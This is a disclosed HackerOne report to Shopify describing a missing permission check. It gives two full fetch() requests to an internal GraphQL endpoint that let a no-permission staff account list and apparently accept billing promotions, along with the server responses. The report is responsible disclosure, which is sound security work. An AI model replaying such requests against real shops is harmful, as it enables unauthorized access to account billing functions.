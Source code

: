 # Staff with no permissions could possibly list and accept billing promotions

## Report Details
- **Report ID**: 1044869
- **URL**: https://hackerone.com/reports/1044869
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-11-27T04:14:34.742Z
- **Disclosed**: 2021-04-08T18:05:24.682Z

## Reporter
- **Username**: saltymermaid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

## Description
I was looking for undocumented GraphQL API endpoints and noticed a query and mutation related to what seems to be billing promotions, but I'm not 100% sure about this since I have no idea where those promotions would come from. However, since those GraphQL endpoints were found within the billing settings scope of the application, and that the staff I used to validate this had no permissions at all, I felt like there could be missing permissions check.

## Steps to reproduce

1. With a staff that has no permission, send this request to possibly list applicable promotions:

	```javascript
	fetch("https://{shop}.myshopify.com/admin/internal/web/graphql/core", {
	  "headers": {
		"accept": "application/json",
		"accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7",
		"content-type": "application/json",
		"sec-fetch-dest": "empty",
		"sec-fetch-mode": "cors",
		"sec-fetch-site": "same-origin",
		"x-csrf-token": "{csrf-token}",
		"x-shopify-web-force-proxy": "1"
	  },
	  "referrerPolicy": "no-referrer",
	  "body": "{\"operationName\": \"Promotions\",\"query\": \"query Promotions {\\n shop {\\n  id\\n  applicablePromotions {\\n   id\\n   amount {\\n    amount\\n    currencyCode\\n    __typename\\n   }\\n   endAt\\n   description\\n   creditCategory\\n   promotionType\\n   __typename\\n  }\\n  __typename\\n }\\n}\"}",
	  "method": "POST",
	  "mode": "cors",
	  "credentials": "include"
	});
	```
 1.2. The response returned by this request looks like the following:

	```json
	{
	  "data": {
		"shop": {
		  "id": "gid:\\/\\/shopify\\/Shop\\/45677445142",
		  "applicablePromotions": [],
		  "__typename": "Shop"
		}
	  },
	  "extensions": {
		"cost": {
		  "requestedQueryCost": 2,
		  "actualQueryCost": 2,
		  "throttleStatus": {
			"maximumAvailable": 10000,
			"currentlyAvailable": 9998,
			"restoreRate": 500
		  }
		}
	  }
	}
	```

2. Now, taking into consideration that the list would have return all the applicable promotions, the staff could possible accept a promotion by sending the following GrapQL request:

	```javascript
	fetch("https://{shop}.myshopify.com/admin/internal/web/graphql/core", {
	  "headers": {
		"accept": "application/json",
		"accept-language": "fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7",
		"content-type": "application/json",
		"sec-fetch-dest": "empty",
		"sec-fetch-mode": "cors",
		"sec-fetch-site": "same-origin",
		"x-csrf-token": "{csrf-token}",,
		"x-shopify-web-force-proxy": "1"
	  },
	  "referrerPolicy": "no-referrer",
	  "body": "{\"operationName\": \"applicablePromotionAccept\",\"variables\": { \"id\": \"gid://shopify/ApplicablePromotion/{promotion_id}\"},\"query\": \"mutation applicablePromotionAccept($id: ID!) {\\n applicablePromotionAccept(id: $id) {\\n  userErrors {\\n   field\\n   message\\n   __typename\\n  }\\n  __typename\\n }\\n}\"}",
	  "method": "POST",
	  "mode": "cors",
	  "credentials": "include"
	});
	```

 2.1. And the response returned by this request looks like the following:

```json
{
  "data": {
	"applicablePromotionAccept": {
	  "userErrors": [
		{
		  "field": null,
		  "message": "Promotion not found",
		  "__typename": "UserError"
		}
	  ],
	  "__typename": "ApplicablePromotionAcceptPayload"
	}
  },
  "extensions": {
	"cost": {
	  "requestedQueryCost": 10,
	  "actualQueryCost": 10,
	  "throttleStatus": {
		"maximumAvailable": 10000,
		"currentlyAvailable": 9990,
		"restoreRate": 500
	  }
	}
  }
}
```

 2.2. Looking at the previous response from the `applicablePromotionAccept` mutation, we can see that there was no privileges issues returned, which suggests that a staff could possibly accept the promotion if the specified ID was valid.

## Impact

A staff with no permission could possibly list and accept what I believe to be promotions related to the account billing due to improper access control.

## Attachments
No attachments
